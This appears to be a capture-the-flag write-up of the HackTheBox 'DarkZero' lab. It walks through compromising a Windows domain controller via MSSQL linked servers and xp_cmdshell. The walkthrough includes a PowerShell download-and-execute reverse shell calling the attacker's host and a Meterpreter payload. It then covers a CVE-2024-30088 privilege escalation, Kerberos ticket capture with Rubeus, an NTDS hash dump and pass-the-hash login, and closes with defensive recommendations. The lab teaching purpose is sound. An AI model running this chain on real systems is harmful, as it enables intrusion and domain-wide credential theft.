

import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Machine Information

As is common in real life pentests, you will start the DarkZero box with credentials for the following account `john.w / RFulUtONCOL!`.

## Attack Sequence

### Recon and enumeration

First, we will perform a port scan to identify **open ports** and **available services**.

```shell
└─$ sudo nmap -p- -T4 10.129.1.149
[sudo] password for viettin:
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 22:11 EST
Nmap scan report for 10.129.1.149
Host is up (0.066s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49891/tcp open  unknown
49934/tcp open  unknown
50002/tcp open  iiimsf
52301/tcp open  unknown

```

Looking at this list of ports, it’s quite clear that it’s a **Windows Domain ControllerWindows Domain Controller** machine. We can see some familiar ports such as **53 (DNS)**, **88 (Kerberos)**, **135 (Microsoft RPC)**, **389 (LDAP)**, **1433 (Microsoft SQL Server)** and **445 (SMB)**. We will try logging into the **SMB service** using the provided credentials.

```shell
$ crackmapexec smb 10.129.1.149 -u john.w -p 'RFulUtONCOL!'

[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Initializing RDP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.129.1.149    445    DC01             [*] Windows 10.0 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:False)
SMB         10.129.1.149    445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL!
```

We have successfully authenticated with user `john.w`. Next, let's try accessing the shared folder.

```shell
$ smbclient -L //10.129.1.149 -U 'john.w%RFulUtONCOL!' -W darkzero.htb

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

Nothing at all, let's try a different approach. We see that port **1433 (Microsoft SQL Server)** is open, so we will use this credential to attempt a login.

```shell
 mssqlclient.py -port 1433 'darkzero/john.w:RFulUtONCOL!@10.129.1.149' -windows-auth
```

We will try to find **Linked Servers** - this is an MSSQL mechanism that allows the current server to query another SQL Server as a remote data source.

```shell
SQL (darkzero\john.w  guest@master)> EXEC sp_linkedservers;
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE
-----------------   ----------------   -----------   -----------------
DC01                SQLNCLI            SQL Server    DC01
DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext
```

### Initial Access

We will try to retrieve the version information from `DC02.darkzero.ext`.

```shell
SQL (darkzero\john.w  guest@master)> EXECUTE ('SELECT @@version') AT [DC02.darkzero.ext];

----------------------------------------------------------------------------------------------------
Microsoft SQL Server 2022 (RTM) - 16.0.1000.6 (X64)
Oct  8 2022 05:58:25
Copyright (C) 2022 Microsoft Corporation
Developer Edition (64-bit) on Windows Server 2022 Datacenter 10.0 <X64> (Build 20348: ) (Hypervisor)

```

This demonstrates that the linked server `DC02.darkzero.ext` is enabling **RPC/remote query execution**.

```shell
SQL (darkzero\john.w  guest@master)> EXECUTE ('SELECT IS_SRVROLEMEMBER(''sysadmin'') AS is_sysadmin;') AT [DC02.darkzero.ext];
is_sysadmin
-----------
          1
```

We can see that the current account on **SQL Server DC02** belongs to the **sysadmin** role. We will run the stored procedure `sp_configure` to check the configuration of the `xp_cmdshell` option on the SQL Server of DC02.

```shell
SQL (darkzero\john.w  guest@master)> EXECUTE ('EXEC sp_configure ''xp_cmdshell''') AT [DC02.darkzero.ext];
name          minimum   maximum   config_value   run_value
-----------   -------   -------   ------------   ---------
xp_cmdshell         0         1              0           0
```

We see that `xp_cmdshell` is completely disabled. We can **re-enable** it using the following method:

```shell
SQL (darkzero\john.w  guest@master)> EXECUTE ('EXEC sp_configure "xp_cmdshell", "1" ') AT [DC02.darkzero.ext];
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (darkzero\john.w  guest@master)> EXECUTE ('RECONFIGURE') AT [DC02.darkzero.ext];
SQL (darkzero\john.w  guest@master)> EXECUTE ('EXEC xp_cmdshell ''whoami''') AT [DC02.darkzero.ext];
output
--------------------
darkzero-ext\svc_sql
NULL
```

We can use `xp_cmdshell` to create a reverse shell.

> `xp_cmdshell` is an extended stored procedure that allows SQL Server to execute operating system commands (`cmd.exe`).

First, we need to host a **powerShell reverse script** locally:

```shell
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

From the SQL server (using the linked server), run:

```shell
SQL (darkzero\john.w  guest@master)> EXEC ('EXEC xp_cmdshell ''powershell -c "IEX (New-Object Net.WebClient).DownloadString(''''http://10.10.16.25:8080/Invoke-PowerShellTcp.ps1''''); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.25 -Port 4444"''') AT [DC02.darkzero.ext];

```

We already have a shell, but we can create a more stable one using **Meterpreter**.

```shell
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.25 LPORT=3636 -f psh-cmd
```

Next, set up **Metasploit** to listen for connections to:

```shell
$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.25
LHOST => 10.10.16.25
msf6 exploit(multi/handler) > set LPORT 3636
LPORT => 3636
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.25:3636
[*] Sending stage (203846 bytes) to 10.129.1.149
[*] Meterpreter session 1 opened (10.10.16.25:3636 -> 10.129.1.149:60837) at 2026-02-11 03:33:24 -0500

meterpreter > getuid
Server username: darkzero-ext\svc_sql

```

Now that we have a better version, we will perform an **enumeration** step to **escalate privileges**. First, we'll bring this session to a **background running mode** using the following command:

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  darkzero-ext\svc_sql @ DC02  10.10.16.25:3636 -> 10.129.1.149:60837 (172.16.20.2)

```

We will use the following module to **suggest exploitable local privilege escalation vulnerabilities** on the current system.

```shell
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

```shell
[*] Running check method for exploit 47 / 47
[*] 172.16.20.2 - Valid modules for session 1:
============================

 #   Name
 -   ----
 1   exploit/windows/local/bypassuac_dotnet_profiler
 2   exploit/windows/local/bypassuac_sdclt
 3   exploit/windows/local/cve_2022_21882_win32k
 4   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes
 5   exploit/windows/local/cve_2023_28252_clfs_driver               Yes
 6   exploit/windows/local/cve_2024_30088_authz_basep               Yes
 7   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes
...
```

We see that there are possibilities for privilege escalation within the session, so we will try the exploit that, based on the description, seems most suitable for the victim machine we are using.

```shell
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2024_30088_authz_basep
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2024_30088_authz_basep) > set SESSION 2
SESSION => 2
msf6 exploit(windows/local/cve_2024_30088_authz_basep) > set LHOST 10.10.16.25
LHOST => 10.10.16.25
msf6 exploit(windows/local/cve_2024_30088_authz_basep) > set LPORT 9999
LPORT => 9999
msf6 exploit(windows/local/cve_2024_30088_authz_basep) > run
[*] Started reverse TCP handler on 10.10.16.25:9999
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2016+ Build 20348
[*] Reflectively injecting the DLL into 3880...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 836
[+] Successfully retrieved winlogon pid: 628
[*] Sending stage (203846 bytes) to 10.129.1.149
[*] Meterpreter session 3 opened (10.10.16.25:9999 -> 10.129.1.149:60840) at 2026-02-11 05:11:28 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Boom, we've got **NT AUTHORITY\SYSTEM** and now we just need to read the flag.

```shell
meterpreter > cat user.txt
65e06090791e55bc3effd98cace*****
```

### Privilege Escalation

We will upload [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) and run it in monitor mode to record **Kerberos' activity**.

```shell
meterpreter > upload /home/viettin/Desktop/Rubeus.exe
[*] Uploading  : /home/viettin/Desktop/Rubeus.exe -> Rubeus.exe
[*] Uploaded 436.50 KiB of 436.50 KiB (100.0%): /home/viettin/Desktop/Rubeus.exe -> Rubeus.exe
[*] Completed  : /home/viettin/Desktop/Rubeus.exe -> Rubeus.exe
```

```shell
C:\Windows\Temp\Rubeus.exe monitor /interval:1 /nowrap
```

> Run Rubeus in Kerberos monitoring mode, checking for new tickets every second and printing them to the screen as base64 without line breaks.

From the **attacker's MSSQL connection**, call:

```shell
xp_dirtree \\DC02.darkzero.ext\0xGunn
```

Then, in the Rubeus output, we will see a new TGT created:

```shell
[*] 2/11/2026 3:11:59 PM UTC - Found new TGT:

  User                  :  DC01$@DARKZERO.HTB
  StartTime             :  2/11/2026 3:11:59 PM
  EndTime               :  2/12/2026 1:11:58 AM
  RenewTill             :  2/18/2026 3:11:58 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :
```

On the attacker's machine, we will convert and use the ticket obtained from Rubeus.

```shell
# save base64 output to file, then decode:
cat ticket.bs4.kirbi | base64 -d > ticket.kirbi

# convert to a ccache file (ticket conversion tool)
python ticketConverter.py ticket.kirbi dc01_admin.ccache

# export the ccache for current session
export KRB5CCNAME=dc01_admin.ccache

# verify cached tickets
klist
```

At this point, the attacker has a **valid Kerberos TGT**(`dc01_admin.ccache`) for a **privileged account** (DC01). With a valid ticket, it is possible to run a program to extract **NT hashes** from the domain.

```shell
└─$ impacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51*****:5917507bdf2ef2c2b0a869a1cba*****:::
```

Finally, use NT hash to validate and retrieve the **final flag**.

```shell
$ evil-winrm -i 10.129.1.149 -u Administrator -H 5917507bdf2ef2c2b0a869a1cba*****

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
c024a0d4cebfa6f71c562ddec62*****
```

## Conclusion

The DarkZero machine demonstrates a critical chain of vulnerabilities that highlight the risks of misconfigured database services in enterprise environments. Beginning with exposed MSSQL services and weak credential management, we successfully escalated from an unprivileged domain user to **NT AUTHORITY\SYSTEM** on a Domain Controller.

### Key Takeaways

**Database Security**: The MSSQL server's exposed linked server configuration and enabled `xp_cmdshell` functionality provided a direct path to remote code execution. This emphasizes the importance of:

- Disabling unnecessary extended stored procedures
- Restricting linked server configurations
- Implementing strict access controls on database services

**Privilege Escalation**: The successful exploitation of **CVE-2024-30088** (AuthZ BaseP vulnerability) showcases how unpatched systems can lead to complete administrative compromise. Regular patching and security updates are critical defensive measures.

**Kerberos Exploitation**: Using Rubeus to capture and convert Kerberos tickets revealed how authentication mechanisms can be weaponized in the absence of proper security controls like ticket encryption and restricted TGT forwarding.

**Defense Recommendations**:

- Implement principle of least privilege for service accounts
- Monitor for unusual MSSQL queries and xp_cmdshell usage
- Enable enhanced security features like Kerberos armoring
- Deploy behavioral analytics to detect suspicious ticket activity
- Maintain an aggressive patching schedule for critical systems

This machine serves as a reminder that security is a multi-layered problem—a single misconfiguration combined with unpatched vulnerabilities can quickly lead to complete domain compromise.

<div class="mx-auto"></div>
